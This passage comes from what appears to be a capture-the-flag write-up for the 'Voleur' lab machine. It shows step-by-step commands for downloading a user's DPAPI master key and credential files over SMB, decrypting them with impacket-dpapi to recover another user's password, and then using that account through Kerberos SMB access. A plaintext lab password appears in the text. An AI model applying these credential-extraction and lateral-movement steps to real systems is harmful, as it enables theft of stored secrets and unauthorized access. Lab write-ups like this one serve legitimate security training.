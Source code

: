 ![16.2](/images/writeups/voleur/16.2.png)

**Sensitive file extraction:**

- **Master Key**: contains the key to decrypt all of the user’s secrets.

```
get /Second-Line Support/Archived Users/todd.wolfe/AppData/Roaming/Microsoft/Protect/S-1-5-21-3927696377-1337352550-2781715495-1110/08949382-134f-4c63-b93c-ce52efc0aa88
```

- **Credentials**: stores an encrypted password that can be recovered using the Master Key.

```
get /Second-Line Support/Archived Users/todd.wolfe/AppData/Roaming/Microsoft/Credentials/772275FAD58525253490A9B0039791D3
```

After downloading the sensitive files, we use `impacket-dpapi` to **decrypt** them. First, using the **Master Key** file, the user’s **SID**, and their **password**, we obtain the **Master Key hash**, representing the key protecting all user secrets. This **hash** is then used to decrypt any file protected by **DPAPI**.

```
impacket-dpapi masterkey \
    -file 08949382-134f-4c63-b93c-ce52efc0aa88 \
    -sid S-1-5-21-3927696377-1337352550-2781715495-1110 \
    -password NightT1meP1dg3on14
```

![17](/images/writeups/voleur/17.png)

With this **hash**, **we can decrypt files inside Credentials**, which may contain passwords or other encrypted secrets stored by the user.

```
impacket-dpapi credential \
    -file 772275FAD58525253490A9B0039791D3 \
    -key 0xd2832547d1d5e0a01...
```

![18](/images/writeups/voleur/18.png)

It contains the password for the user **jeremy.combs**.

![19](/images/writeups/voleur/19.png)

The user **jeremy.combs** belongs to the **THIRD-LINE TECHNICIANS** group, allowing us to access the group’s shared resources and review stored information, after first creating the **TGT** for this user.

```
faketime "$(ntpdate -q voleur.htb | awk '{print $1 " " $2}')" impacket-smbclient -k -no-pass -dc-ip 10.10.11.76 VOLEUR.HTB/jeremy.combs@dc.voleur.htb
```

![20](/images/writeups/voleur/20.png)
